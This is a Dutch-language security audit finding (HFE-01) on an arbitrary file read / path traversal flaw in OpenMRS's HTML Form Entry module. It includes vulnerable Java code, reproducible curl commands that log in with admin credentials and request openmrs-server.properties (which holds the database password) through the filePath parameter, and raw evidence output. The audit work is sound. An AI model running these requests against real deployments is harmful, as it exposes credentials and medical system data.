


# Bevinding HFE-01 — External control of file path / arbitrary file read (vóór mitigatie)

| Veld | Waarde |
|------|--------|
| ID | HFE-01 |
| Component | `HtmlFormFromFileController.java:73-74` (`f = new File(filePath)`) |
| Endpoint | `GET /openmrs/module/htmlformentry/htmlFormFromFile.form?filePath=` |
| Type (CWE) | CWE-73 External Control of File Name/Path · CWE-22 Path Traversal · CWE-200 Information Disclosure |
| Vereiste rechten | Geauthenticeerd + privilege *Manage Forms* (admin heeft dit) |
| Bow-tie | Datalek (C=5) |
| Datum | 2026-06-15 |
| Status | Vóór mitigatie |
| Testomgeving | OpenMRS Ref. App 2.12.2 (Core 2.4.3) + HTML Form Entry 3.10.0, lokaal via Docker |

## Beschrijving
De controller neemt de request-parameter `filePath` ongevalideerd over en geeft
die rechtstreeks aan `new File(filePath)`. Er is geen normalisatie, geen
whitelist en geen basis-directory. Na de privilegecheck `Manage Forms` opent de
controller dus **elk bestand dat de Tomcat-gebruiker mag lezen** en geeft de
inhoud terug in `previewHtml`. Een gebruiker met formulierbeheer — of een
gekaapte/CSRF-misbruikte admin-sessie (zie [HFE-02](bevinding-hfe-02-voor.md)) —
kan hiermee bestanden van het systeem uitlezen.

Relevante code:
```java
// HtmlFormFromFileController.java
Context.requirePrivilege("Manage Forms");          // r48  (enige beveiliging)
...
if (StringUtils.hasText(filePath)) {
    f = new File(filePath);                         // r73-74  geen validatie
}
...
if (f != null && f.exists() && f.canRead()) {
    IOUtils.copy(new FileInputStream(f), writer, "UTF-8");   // r84  inhoud gelezen
    ... model.addAttribute("previewHtml", html);             // r100 inhoud teruggegeven
}
```

## Aanvalsstap (reproduceerbaar)

**1. Geauthenticeerde sessie-cookie ophalen** (admin heeft *Manage Forms*):
```powershell
curl.exe -c cookies.txt -u admin:Admin123 "http://localhost:8080/openmrs/ws/rest/v1/session"
```

**2. Bestandsinhoud uitlezen** — de server leest het opgegeven bestand en geeft
de inhoud terug:
```powershell
curl.exe -b cookies.txt "http://localhost:8080/openmrs/module/htmlformentry/htmlFormFromFile.form?filePath=probe.xml"
```

**3. Gevoelig bestand benaderen** — het OpenMRS-config­bestand met het
DB-wachtwoord (`connection.password`) staat in de werkdirectory en wordt door de
controller geopend en geparsed:
```powershell
curl.exe -b cookies.txt "http://localhost:8080/openmrs/module/htmlformentry/htmlFormFromFile.form?filePath=openmrs-server.properties"
```

## Bewijs
Ruwe curl-output in [`bewijs/`](bewijs/).

**E1 — disclosure** (`bewijs/hfe01-E1-disclosure.json`): de inhoud van het
opgegeven bestand komt terug in `previewHtml`:
```json
{"isFileUpload":false,"message":"",
 "previewHtml":"<div class=\"htmlform\"><b>PROBE-TOKEN-RENDER</b></div><script></script>",
 "filePath":"probe.xml"}
```

**E2a — gevoelig bestand wordt geopend** (`bewijs/hfe01-E2a-sensitive.json`): de
XML-parser struikelt over de inhoud van `openmrs-server.properties`, wat bewijst
dat het bestand is **ingelezen**. Dit bestand bevat `connection.password=...`:
```json
{"isFileUpload":false,
 "message":"An error occurred while loading the html. Content is not allowed in prolog.",
 "previewHtml":"","filePath":"openmrs-server.properties"}
```

**E2b — negatieve tegenproef** (`bewijs/hfe01-E2b-negatief.json`): een
niet-bestaand bestand geeft een ánder antwoord → existence/read-oracle:
```json
{"message":"Please specify a valid file path or select a valid file.",
 "previewHtml":"","isFileUpload":false}
```

Screenshots:

De preview-pagina ("Preview HTML form on the same machine as the OpenMRS server",
veld "Located at: probe.xml") toont de gerenderde bestandsinhoud
**PROBE-TOKEN-RENDER**:



`filePath=openmrs-server.properties` geeft *"An error occurred while loading the
html. Content is not allowed in prolog."* → bewijst dat het credentials-bestand
door de server is ingelezen:



## Reikwijdte & nuance (eerlijk)
In deze build worden twee klassieke varianten door framework-padverwerking
deels geneutraliseerd, dus benoem dit zo in het rapport:
- **Absolute paden** (`/etc/passwd`): de leidende `/` wordt gestript, waardoor
  het pad relatief t.o.v. de werkdirectory wordt → bestand niet gevonden.
- **`../`-sequenties**: leiden tot een server-side exception (geen render).

De **werkende exploit** is het lezen van bestanden **relatief t.o.v. de
werkdirectory** (`/usr/local/tomcat`). Dat is nog steeds arbitrary file read en
omvat gevoelige bestanden (o.a. `openmrs-server.properties` met de
DB-credentials, Tomcat-config). Volledige inhoud komt terug voor bestanden die
als htmlform-XML parsen (E1); voor overige bestanden bevestigt de read-oracle
(E2a vs E2b) dat het bestand is benaderd.

## Impact
Vertrouwelijkheid (C=5): blootstelling van config-/credential-/systeembestanden,
waaronder het database-wachtwoord. Mapt op de datalek-bow-tie.

## Verwijzing
Mitigatie volgt in opdracht 3.3 (canonicaliseren + whitelisten van een
forms-basismap, leidende `/` en `..` weigeren). Zie ook
`docs/auditrapport/07-patchadvies.md`.
